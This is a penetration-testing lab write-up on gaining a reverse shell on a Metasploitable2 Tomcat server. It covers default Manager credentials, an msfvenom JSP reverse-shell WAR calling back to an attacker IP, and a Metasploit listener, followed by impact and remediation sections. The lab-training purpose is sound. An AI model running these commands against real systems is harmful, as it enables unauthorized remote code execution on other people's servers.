




# Tomcat — Default Credentials & Malicious WAR Deployment

**CVE:** N/A — Weak/Default Credentials
**Target:** Metasploitable2 (10.0.2.3)
**Date:** August 2026
**Severity:** Critical

## Summary

A third distinct vulnerability class: weak/default credentials on Tomcat's administrative web interface. Unlike the tampered-binary backdoor in Writeup #1 and the access-control misconfiguration in Writeup #3, this required manually authenticating to a web admin panel and abusing its legitimate WAR deployment functionality to achieve remote code execution.

## 1. Reconnaissance

Targeted scan against Metasploitable2's known Tomcat port:

```
$ nmap -sV -p 8180 10.0.2.3
```


*Nmap scan confirming Apache Tomcat/Coyote JSP engine 1.1 running on port 8180/tcp.*

Confirmed an Apache Tomcat instance listening on port 8180 (Metasploitable2's non-standard Tomcat port), exposing the Tomcat Manager web admin interface.

## 2. Vulnerability Identification

Accessed the Tomcat Manager login page directly:

```
http://10.0.2.3:8180/manager/html
```

Rather than a code flaw, this vulnerability lies in credential hygiene: Tomcat Manager was tested against a shortlist of well-known default credential pairs (`tomcat:tomcat`, `admin:admin`, `tomcat:s3cret`). Authentication succeeded, granting full access to the Tomcat Web Application Manager.


*Successful authentication to the Tomcat Web Application Manager using default credentials, exposing full application deployment controls.*

This confirmed the Manager application was both exposed on the network and protected only by weak, unchanged default credentials — a critical finding on its own, since this interface alone grants the ability to deploy arbitrary code to the server.

## 3. Exploitation

Since the Manager interface allows deploying WAR (Web Application Archive) files, a malicious WAR containing a Java JSP reverse shell payload was generated with msfvenom:

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.0.2.15 LPORT=4444 -f war -o shell.war
```

A Metasploit multi/handler listener was started to catch the reverse connection:

```
msfconsole -q -x "use exploit/multi/handler; set payload java/jsp_shell_reverse_tcp; set LHOST 10.0.2.15; set LPORT 4444; run"
```


*msfvenom generating shell.war, a 1083-byte malicious WAR payload targeting the attacker's IP and listening port.*

With the listener active, `shell.war` was uploaded through the Manager app's "WAR file to deploy" section and deployed as a new application (`/shell`). Visiting the deployed application's URL triggered the embedded JSP payload:

```
http://10.0.2.3:8180/shell/
```

## 4. Post-Exploitation — Verifying Access

The listener immediately caught the incoming connection and opened a command shell session:

```
[*] Command shell session 1 opened (10.0.2.15:4444 -> 10.0.2.3:45753)
```

Privilege level was then verified:

```
whoami
id
```


*Shell access confirmed as tomcat55 (uid=110), a low-privilege service account rather than root.*

```
whoami → tomcat55
id → uid=110(tomcat55) gid=65534(nogroup) groups=65534(nogroup)
```

Unlike the vsftpd backdoor in Writeup #1, which yielded immediate root access, this exploitation path landed a shell as the low-privilege `tomcat55` service account. This is a realistic outcome for this vulnerability class: initial access was achieved, but a real engagement would require a separate privilege escalation phase to reach root.

## 5. Impact

In a real-world scenario, this vulnerability would allow a credential-guessing remote attacker to:
- Gain full access to Tomcat's administrative deployment interface using publicly known default credentials
- Deploy arbitrary web applications, including malicious payloads, directly onto the server
- Achieve remote code execution and an interactive shell on the host, as demonstrated
- Use the compromised `tomcat55` service account as a foothold for further privilege escalation or lateral movement
- Potentially access sensitive application data, configuration files, or credentials reachable by the Tomcat process

## 6. Remediation

- Change all default Tomcat Manager credentials immediately upon installation, using strong, unique passwords
- Restrict access to `/manager` and `/host-manager` to trusted internal IP addresses only, via Tomcat's context-based IP allow-listing
- Disable or remove the Manager application entirely on production servers where it is not operationally required
- Run the Tomcat service under a dedicated low-privilege account with minimal filesystem permissions (partially mitigated here, since `tomcat55` was not root)
- Monitor and alert on WAR file deployments and unexpected application directories appearing under the Tomcat webapps folder

## References

- [Apache Tomcat Security Documentation](https://tomcat.apache.org/security.html)
